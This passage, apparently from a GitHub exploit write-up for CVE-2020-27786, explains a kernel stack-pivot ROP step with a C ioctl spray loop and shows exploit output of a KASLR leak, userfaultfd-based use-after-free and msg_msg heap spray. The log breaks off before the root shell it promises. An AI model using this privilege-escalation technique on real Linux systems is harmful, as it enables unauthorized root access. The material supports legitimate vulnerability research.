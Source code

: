 ![image](/assets/CVE-2020-27786/rip_hijack.JPG)

<br/>

To use the stack pivot gadget, specifically the `pop rsp; pop r13;` instructions, you need to account for the stack address increment caused by `pop r13`. Therefore, you must pass the address of the stack pivot minus 8 bytes as the argument. The following code snippet achieves this:
```c
for(int i = 0; i < 256; i++)
{
    ioctl(spray[i], 0, next - 8);
}
```

<br/>

You can run exploit to successfully obtain a shell with root privileges.

```plaintext
/ $ id
uid=1000(user) gid=1000(user) groups=1000(user)
/ $ uname -a
Linux (none) 5.6.13 #1 SMP Tue Feb 27 00:45:10 PST 2024 x86_64 GNU/Linux
/ $ ./exploit
[+] STEP 1 : KASLR leak
[+] Opening rawmidi
[+] Mapping two pages
[+] Registering one page userfaultfd
[*] Start monitoring range: 0x1336000 - 0x1337000
[+] Userfaultfd registered
[+] Raising up the handler for userfaultfd
[+] Created one object by size 256
[+] Triggering userfaultfd
[+] Page Fault triggered on address 0x1337000
[+] Deleting before object created by size 256 generating UAF
[+] Allocate msg_msg in kmalloc-256
```